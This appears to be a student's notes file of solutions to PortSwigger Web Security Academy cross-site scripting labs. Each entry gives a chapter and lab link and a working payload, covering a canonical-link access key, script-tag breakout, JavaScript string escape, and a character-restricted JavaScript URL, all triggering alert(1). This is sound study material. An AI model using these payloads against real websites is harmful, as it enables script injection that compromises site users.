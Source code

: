 ## XSS with Access key (Canonical Link tag)

**Chapter:**

https://portswigger.net/web-security/cross-site-scripting/contexts

**Lab:** 

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

**Limitation:** Only on Chrome

**Solution:**

https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)

Press Alt+x on keyboard to get alert

## XSS within <script>

**Chapter:** 
  
https://portswigger.net/web-security/cross-site-scripting/contexts
**Lab:** 
  
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped
**Limitations:** NA
**solution:** 
  
</script><script>alert(1)</script>


## Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

**Chapter:**

https://portswigger.net/web-security/cross-site-scripting/contexts
  
**Lab:**

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped
  
**Limitations:** NA

**Solution:** 

\'-alert(1)//


## Reflected XSS in a JavaScript URL with some characters blocked

**Chapter:** 

https://portswigger.net/web-security/cross-site-scripting/contexts
  
**Lab:**

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked
  
**Limitations:** NA

**Solution:** 

``` https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27 ```


  **solution:** 






# Template:
## Topic Here 

**Chapter:**
  
**Lab:**

  
**Limitations:** NA

**Solution:** 


  **solution:** 
